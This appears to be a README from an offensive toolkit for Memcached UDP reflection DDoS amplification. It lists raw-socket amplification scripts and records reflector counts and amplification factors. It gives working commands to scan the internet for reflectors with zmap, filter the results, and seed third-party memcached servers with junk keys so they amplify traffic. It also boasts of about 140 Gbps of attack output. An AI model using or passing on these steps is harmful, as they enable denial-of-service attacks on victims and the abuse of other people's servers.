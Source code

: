 # MemcacheD (Active Q3 2020)

## Port: 11211

## Proto: UDP

## Amplification factor: 200x (Q2 2020 - using `memcached-static.c` script)

## Reflector count: ~1,500 (Sept 2020)

## Remediation Progress - 400 less reflectors at Q3 2020 than at Q2 2020

---

Amplification scripts in this folder:

* **memcached-dynamic.c** - Dynamic key reflection query generator C script (raw sockets)
* **memcached-static.c** - Static key reflection template C socket script (raw sockets)

This folder holds all relevant scripts for Memcache amplification (in 2020) utilising either dynamic `<ip> <value>` mg/get/gets command to the effect of garnering the largest amplification factor per IP with the least amount of work (**see memcached-filter.py**); alternatively utilising static gets command to known memcache keys that are pre-seeded from a list file.

Memcache Daemon has thankfully been patched and most old and vulnerable devices have been removed from the internet following the [1.7tbps attack incident back in 2017](https://www.zdnet.com/article/new-world-record-ddos-attack-hits-1-7tbps-days-after-landmark-github-outage/) through efforts of the community at large.

### How does it work

* Using Python to dynamically seed MemcacheD devices that respond to "stats items" query, with bogus data to keys of length 1 that are then used by dynamic or static amplification scripts.
* Either dynamic script (scanned and filtered list of keys) or static script (pre-seeded keys) to generate amplification via raw sockets.

### How to use

1. First use zmap to scan for all reflectors responding to "stats items".

    ```bash
    echo -ne '\x00\x01\x00\x00\x00\x01\x00\x00stats items\r\n'>memecached_probe.pkt`

    zmap -p11211 --output-filter='sport=11211' -Mudp --probe-args=file:memecached.pkt -f "saddr,udp_pkt_size,data" -o ~/memcached.alive.txt
    ```

2. Filter list using this command (this removes bogus responses and cleans up the list).

    ```bash
    cat ~/memcached.alive.txt | sed 's/,/ /g' | sed 's/saddr.*//g' \
    | awk '$3~/53544154/ || $3~/454e44/ || $3~/737461747320/' \
    | awk '{print $1}' | sort -u > memcached.list.txt;wc -l memcached.list.txt
    ```

3. Download the list file `memcached.list.txt` as this will be usable by the C scripts in this folder as well.

4. Run the seeding process.

   * This just uses a junkfile to hold output which is erased at the start if it exists, thus you can paste the entire line in over and over to seed the IPs present in the `memcached.list.txt` file!

    ```bash
    rm junkfile;shuf memcached.list>shufflejunk;mv shufflejunk memcached.list;screen -dmS seeder python3 memecached-seeder.py memcached.list junkfile
    ```

#### ~140 Gbps output with 600 Mbps input as at Q2 2020
